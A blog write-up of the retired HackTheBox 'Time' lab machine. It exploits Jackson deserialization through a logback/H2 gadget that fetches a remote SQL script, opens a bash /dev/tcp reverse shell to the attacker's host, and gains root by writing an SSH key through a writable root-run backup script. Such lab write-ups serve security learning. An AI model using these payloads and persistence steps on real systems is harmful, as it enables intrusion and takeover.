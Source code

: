 Title:HTB: Time
Date: 04-07-2021 19:20
category:security
tags:security, boot2root, HTB, linux, jackson, deserialization
meta:security, boot2root, HTB, linux, jackson, deserialization

<img class="align-left" src="/media/2021.04/time_card.png" alt="Time Card" width="262">

This is a writeup about a retired HacktheBox machine:
[Time](https://www.hackthebox.com/home/machines/profile/286) publish on
October 24, 2020 by
[egotisticalSW](https://www.hackthebox.com/home/users/profile/94858) and
[felamos ](https://www.hackthebox.com/home/users/profile/27390).
This box is rated as a medium box. It implies a hard foothold using Jackson and
some Google fu. The root part is quit fast as there is a writable bash script
running regularly as root.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.91 scan initiated Wed Nov  11 12:02:12 2020 as: nmap -sS -p- -oN nmap 10.129.29.179
    Nmap scan report for 10.129.29.179
    Host is up (0.012s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Wed Nov  11 12:02:28 2020 -- 1 IP address (1 host up) scanned in 15.91 seconds

## Web

The website is an online tool to beautify and validate json data.

![/media/2021.04/time_01.png]{: .image-process-article-image}

When we try to validate "garbage" input. We got an error message "Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'qe': was expecting ('true', 'false' or 'null')"

We see that the website is using the Jackson library.

As we want a RCE we start a few Google search with "jackson fasterxml rce".
The results are from 2017:

* https://medium.com/@swapneildash/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038
* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062


We continue our searches and finally get to "jackson gadget". Which lead us to a
more recent [article about Jackson gadgets](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).


We send the following request (we just URL encoded the data parameter)

    :::text
    POST / HTTP/1.1
    Host: 10.129.29.179
    User-Agent: Mozilla/4.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 174
    Origin: http://10.129.29.179
    Connection: close
    Referer: http://10.129.29.179/
    Upgrade-Insecure-Requests: 1

    mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource",+{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT+FROM+'http://10.10.14.25:8000/inject.sql'"}]

Our inject.sql file looks like the following:

    :::text
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
            String[] command = {"bash", "-c", cmd};
            java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
            return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('<payload>')


We start with a first simple payload `wget http://10.10.14.25:8000/rce`
as we see the query in our python server log we know that we have RCE

We change the payload to get a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
`bash -i >& /dev/tcp/10.10.14.25/4242 0>&1`

This allows us to get a shell and grab the user flag.

    :::text
    kali@kali:/tmp$ nc -l -p4242
    bash: cannot set terminal process group (958): Inappropriate ioctl for device
    bash: no job control in this shell
    pericles@time:/var/www/html$ cat /home/pericles/user.txt
    cat /home/pericles/user.txt
    74555f76d2e8013945afd9233ca2f219

# Root

We start by checking our privileges. We are not part of any specific group. As we don't know our password we cannot use sudo.

    :::text
    pericles@time:/var/www/html$ id
    id
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)

As we want to transfer file and have a better shell, we "upload" our SSH key:

    :::text
    mkdir /home/pericles/.ssh
    echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/ElCFvS<SNIP>' > /home/pericles/.ssh/authorized_keys

We upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) using scp and run it.
We discover that we have access to the /usr/bin/timer_backup.sh file (read and write)

    :::text
    [+] .sh files in path
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
    /usr/bin/gettext.sh
    You own the script: /usr/bin/timer_backup.sh
    /usr/bin/rescan-scsi-bus.sh

We take a look at the file. It seems that root is regulary making a backup of the website.


    :::text
    pericles@time:~$ cat /usr/bin/timer_backup.sh
    #!/bin/bash
    zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip


We modify the file using Vim and add the following lines

    :::text
    mkdir /root/.ssh
    echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/ElCFv<SNIP>' > /root/.ssh/authorized_keys

Waiting a few seconds and connecting back to the box with the root user allow us to get a shell and grab the flag.


    :::text
    kali@kali:~$ ssh root@10.129.29.179
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

    <SNIP>

    Last login: Fri Oct 23 10:05:26 2020
    root@time:~# cat root.txt
    50fb5aa6e01ec64a77c48d42cf533088

# Wrapping up

The root part was easy, the jackson exploitation was harder and mostly some Google fu.
Nonetheless an interesting box to play with Java Deserialization vulnerabilities.

